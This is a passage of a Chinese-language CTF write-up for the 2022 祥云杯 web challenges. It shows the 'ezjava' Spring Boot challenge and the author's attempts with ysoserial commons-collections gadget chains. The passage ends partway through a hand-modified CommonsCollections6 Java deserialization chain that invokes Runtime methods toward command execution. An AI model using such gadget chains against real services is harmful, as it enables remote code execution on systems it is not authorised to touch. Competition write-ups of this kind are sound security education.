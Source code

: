 ```yaml
---
title: "2022 祥云杯 Web 部分 Writeup"
date: 2022-10-31T09:30:29+08:00
lastmod: 2022-10-31T09:30:29+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


看了两天的 `Token is invalid !!`...



## ezjava

springboot 网站

controller

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302033773.png)

util (最后好像没用到)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302034773.png)

lib

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302034341.png)

一眼看到 commons-collection4-4.0, 于是直接用 ysoserial 打

试了下 cc2 cc4 发现一直失败, 报错提示没有 TemplatesImpl 类 (?)

又换成了 cc6, 自己手动改了下 payload (4.0 版本中 LazyMap 的 decorate 方法变成了 lazyMap)

```java
package com.example;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class CommonCollections6Demo {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
```